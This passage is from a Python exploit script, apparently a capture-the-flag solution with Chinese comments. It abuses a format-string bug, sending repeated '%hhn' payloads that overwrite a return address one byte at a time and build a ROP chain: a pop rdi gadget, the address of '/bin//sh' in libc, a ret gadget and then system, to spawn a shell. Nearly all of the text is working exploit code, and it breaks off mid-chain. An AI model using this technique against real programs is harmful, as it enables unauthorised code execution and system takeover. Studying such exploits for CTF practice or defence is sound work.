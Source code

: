 ```plain
# one_gadgets = addr_libc_base + offset[2]
print("pop_rdi", hex(addr_pop_rdi))
print("main_re", hex(addr_libc_base + libc.dump("__libc_start_main") + 243))

change_byte = addr_pop_rdi
addr_write = addr_stack_buf + 0x60 + 0x08
# 修改返回地址
for i in range(4):
    cur_bytes = change_byte % 256
    change_byte //= 256
    print(hex(cur_bytes))
    print(hex(addr_write + i))
    payload = 'A' * 5 + "%9$hhn" + '%' + str(cur_bytes - 5) + "c"+ "%10$hhn"
    payload = payload.encode()
    assert len(payload) <= 0x18
    payload = payload.ljust(0x18, b'a')
    payload += p64(addr_printf_ret)
    payload += p64(addr_write + i)
    payload = payload.ljust(0x30, b'a')

    p.send(payload)

# 写入 /bin//sh 的地址
change_byte = addr_libc_base + 0x1b45bd
addr_write = addr_write + 0x08
for i in range(6):
    cur_bytes = change_byte % 256
    change_byte //= 256
    print(hex(cur_bytes))
    print(hex(addr_write + i))
    # begin with 6
    payload = 'A' * 5 + "%9$hhn" + '%' + str(cur_bytes - 5) + "c"+ "%10$hhn"
    payload = payload.encode()
    assert len(payload) <= 0x18
    payload = payload.ljust(0x18, b'a')
    payload += p64(addr_printf_ret)
    payload += p64(addr_write + i)
    payload = payload.ljust(0x30, b'a')

    p.send(payload)

# 写入ret
change_byte = addr_ret
addr_write = addr_write + 0x08
for i in range(6):
    cur_bytes = change_byte % 256
    change_byte //= 256
    print(hex(cur_bytes))
    print(hex(addr_write + i))
    # begin with 6
    payload = 'A' * 5 + "%9$hhn" + '%' + str(cur_bytes - 5) + "c"+ "%10$hhn"
    payload = payload.encode()
    assert len(payload) <= 0x18
    payload = payload.ljust(0x18, b'a')
    payload += p64(addr_printf_ret)
    payload += p64(addr_write + i)
    payload = payload.ljust(0x30, b'a')

    p.send(payload)

# 写入system
change_byte = addr_system
addr_write = addr_write + 0x08
```